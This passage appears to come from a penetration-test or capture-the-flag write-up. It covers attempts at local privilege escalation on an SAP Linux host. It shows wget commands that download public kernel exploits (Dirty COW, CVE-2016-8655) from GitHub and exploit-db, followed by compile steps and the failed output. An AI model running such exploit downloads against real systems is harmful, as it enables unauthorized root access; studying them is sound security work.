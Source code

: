 ```bash
id
uid=1001(pbdadm) gid=1001(sapsys) groups=1001(sapsys)
```

<strong>Note:</strong> sapsys group is spicy. SAP binaries run under that. If something’s weak in /sapmnt/, I can leverage it.

### Exploit Attempts (and fails)

#### 1. Dirty Pipe (CVE-2022-0847)
Grabbed exploit.
Compiled.
Kernel laughed in my face. Needs 5.8+, this box is 4.4.21. Waste of 20 minutes.
#### 2. Dirty COW (CVE-2016-5195)

Downloaded PoC:
```bash
wget https://github.com/dirtycow/dirtycow.github.io/raw/master/dirtyc0w.c

gcc dirtyc0w.c -o dirtycow -lpthread
```
Ran it. Expected root.

Got:
```bash
madvise 0: Operation not permitted
procselfmem: Permission denied
```
Means they patched or hardened it. <strong>Sad cow noises.</strong>

![momentum992](/assets/images/moo.png)

#### 3. AF_PACKET Race (CVE-2016-8655)
Thought this was it. Kernel vulnerable.

<strong>Compiled:</strong>

```bash
wget https://exploit-db.com/download/47170

gcc chocobo_root.c -o chocobo -lpthread
```
Ran:
```bash
./chocobo
[.] starting
[.] checking hardware
[.] system has 32 processor cores
[~] done, hardware looks good
[-] failed to win the race, try again
```

Tried it over and over and over. Still failed. Race condition RNG gods weren’t with me.

At this point: 3 strikes, almost tilted.

